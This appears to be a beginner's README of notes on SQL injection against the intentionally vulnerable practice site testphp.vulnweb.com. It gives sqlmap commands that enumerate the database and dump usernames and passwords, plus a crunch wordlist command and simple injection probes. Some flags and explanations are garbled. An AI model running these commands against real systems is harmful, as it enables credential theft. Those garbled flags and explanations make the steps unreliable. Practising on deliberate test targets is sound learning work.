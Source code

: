 # sqlmap tool
 first go the vulweb website

and choose sql and copy the linked and paste in chrome

site:http://testphp.vulnweb.com/ php?id=  enter
 
 after we can get the linke of vulweb 

like this http://testphp.vulnweb.com/artists.php?artist=1

this is the link we need to attack 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs
 dbs is the database 
 now check for tables

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -- tables

acuart is databse we find it before database

 this is the tables 
artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users  

 now this we are goint to see the tales in  column name

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users --columns 
Column  | Type         |

| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100)

T is the table what we need to search we need to put

we are going to find the user name from this column and table 

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C uname --dump

now we can find username test

now we goint to find the password

sqlmap -u  http://testphp.vulnweb.com/artists.php?artist=1 -D acuart  -T  users -C pass --dumps

password is test

 with this command we can find all 

# Generic SQL Injection Payloads can try it on website link itself 

# create dictionary attack using crunch 
first we need to create an dictionary 
 
 crunch  1 8  julian@;  -o /root/Desktop/julian.text

 -o is the output  and 3 to 8 means it will skip the two password like ju like that

# using sqli app 

open and copy the link of the website  like this 

http://testphp.vulnweb.com/artists.php?artist=1

if not use means

 use this 

-1

-1'

1'

and use this if there link is not working

after click the table and click load we can see all the details


